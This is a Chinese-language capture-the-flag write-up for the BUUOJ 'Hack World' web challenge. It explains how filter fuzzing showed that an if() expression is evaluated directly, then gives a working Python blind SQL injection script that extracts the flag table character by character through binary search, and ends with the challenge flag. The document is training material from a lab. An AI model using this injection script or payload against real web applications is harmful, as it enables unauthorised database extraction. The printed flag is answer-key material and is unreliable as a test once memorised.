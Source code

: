 # [CISCN2019 华北赛区 Day2 Web1]Hack World

[题目地址](https://buuoj.cn/challenges#[CISCN2019%20%E5%8D%8E%E5%8C%97%E8%B5%9B%E5%8C%BA%20Day2%20Web1]Hack%20World)

这题倒是不难，也没有很多新知识，只是自己不熟没法一下子想出来和组合在一起。

进入网站，表名字段名都给了，直接一步到爆内容。现在就是看看怎么爆了。随手试一下一点也不万能的万能密码，显示被过滤了。有过滤就跑fuzz，确认一下过滤了什么东西。显示没有过滤引号，空格和or之类的。确实如此，但也掩盖不了很多语句用不了的事实，因为这道题是组合过滤，单个字符没事，放在一起就有事了。一时间脑抽了，看了[wp](https://blog.csdn.net/l2872253606/article/details/125244044)，看到第一句我就会了。天天熬夜把脑子熬傻了。

测试几个id，1和2都有回显内容，不过输入没有的id会显示“Error Occured When Fetch Result”。这题和其他sql注入不一样的地方在于，其他题关于sql注入第一个想法肯定是找闭合，而这道题不需要闭合就能执行sql语句。尝试[if语句](https://blog.csdn.net/wzzfeitian/article/details/55097563)。

- if(1,1,2)
> Hello, glzjin wants a girlfriend.

没错就是直接填个if语句，没有引号没有注释，都能回显出内容。知道这点这题就没啥了，可以直接用=号无脑爆，或者使用二分法,效率会高很多。

```python
import requests
url = "http://88b61e4e-51b6-49d7-bde7-d085703814f9.node4.buuoj.cn:81/index.php"
flag = ""
i = 0
while True:
    i = i + 1
    left = 32
    right = 127
    while left < right:
        mid = (left+right) // 2
        payload = f"if(ascii(substr((select(flag)from(flag)),{i},1))>{mid},1,2)"
        data = {"id":payload} 
        res = requests.post(url=url, data=data).text
        if "Hello" in res:
            left = mid + 1
        else:
            right = mid
    if left != 32:
        flag += chr(left)
    else:
        print(flag)
        break
```

## Flag
> flag{bf687983-e3f4-414a-85d7-b8d5eaf3dfa3}